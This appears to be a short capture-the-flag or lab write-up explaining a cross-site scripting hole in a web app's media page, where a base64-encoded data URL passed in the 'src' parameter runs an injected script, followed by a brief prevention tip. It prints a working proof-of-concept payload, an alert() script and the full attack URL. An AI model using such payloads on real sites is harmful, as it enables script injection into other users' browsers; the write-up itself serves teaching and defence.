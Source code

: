 # Data URL (XSS)

You can see the NSA (National Security Agency) logo in the homepage is loaded from a data URL.
```html
<a href="?page=media&amp;src=nsa">
	<img src="images/nsa_prism.jpg" alt="">
</a>
```

If we access to the image URL: `/?page=media&src=nsa`, we can see the image is loaded from a data URL (check the Network tab in the browser developer tools). In this way we can add our own file to the data URL and execute it in the browser. Doing `/?page=media&src=mycustomfile` won't work because the file is not in the server, but we can use a data URL to load our own file. To do this, we need to encode our file in base64. Example:
```html
<script>alert('banger');</script>
```
In base64, this will be:
```
PHNjcmlwdD5hbGVydCgnYmFuZ2VyJyk7PC9zY3JpcHQ+
```
Then we can create a data URL like this:
```html
data:text/html;base64,PHNjcmlwdD5hbGVydCgnYmFuZ2VyJyk7PC9zY3JpcHQ+
```
And then we can use it in the URL:
```
/?page=media&src=data:text/html;base64,PHNjcmlwdD5hbGVydCgnYmFuZ2VyJyk7PC9zY3JpcHQ+
```

# How to prevent it
To prevent this kind of attack, you should not allow data URLs to be used in the application. If you store images in the database, just request them from an ID.
